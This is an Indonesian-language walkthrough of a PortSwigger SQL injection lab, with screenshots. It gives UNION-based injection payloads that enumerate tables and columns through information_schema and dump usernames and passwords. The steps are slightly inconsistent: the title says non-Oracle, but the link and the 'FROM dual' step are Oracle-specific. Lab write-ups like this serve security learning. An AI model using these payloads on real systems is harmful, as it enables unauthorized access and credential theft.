 # - Lab: SQL injection attack, listing the database contents on non-Oracle databases
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.  

# - Link
https://portswigger.net/web-security/sql-injection/lab-querying-database-version-oracle

# - Cara

## Step
1. Cek adanya dua kolom dengan ```sql '+UNION+SELECT+'abc','def'+FROM+dual--```
2. Mendapatkan list tabel sql ```sql +UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--```
3. Cari nama users_xxxxxx dan ganti nama tabel ```sql '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_xxxxxx'--```
4. Ganti username dan password yang sesuai ```sql '+UNION+SELECT+username_xxxxxx,+password_xxxxxx+FROM+users_xxxxxx--```
5. Dapatkan data dan masukkan data

## Gambar
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_14_04_56" src="https://github.com/user-attachments/assets/e96f414b-72db-4a90-bb46-de4ceeb71341" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_14_05_54" src="https://github.com/user-attachments/assets/fa169e0a-aac2-4be0-95d6-1a9589c946c4" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_14_07_33" src="https://github.com/user-attachments/assets/a0086a82-dc11-49f0-ab1c-64f04c48b2fa" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_14_09_25" src="https://github.com/user-attachments/assets/5df34bac-7284-4b18-bf1b-9ba4697cad13" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_14_09_59" src="https://github.com/user-attachments/assets/bde6dc13-4bd3-476a-ad86-77729314e520" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_14_10_57" src="https://github.com/user-attachments/assets/9f5fa4df-c9d8-47f5-b697-c828dbdface3" />

## Berhasil


